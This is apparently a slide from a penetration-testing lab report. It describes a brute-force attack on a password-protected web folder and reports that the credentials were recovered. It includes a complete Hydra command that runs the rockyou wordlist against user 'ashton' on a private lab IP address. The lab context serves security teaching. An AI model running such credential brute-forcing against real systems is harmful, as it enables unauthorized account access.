

# Brute Force Attack Inadequate Encryption Strength
Processes
Tools

Achievements
Successful retrieval of User and Password
Hydra
We use the information found in the company_secret_folder and run a brute-force attack on the password protected secret folder command: hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder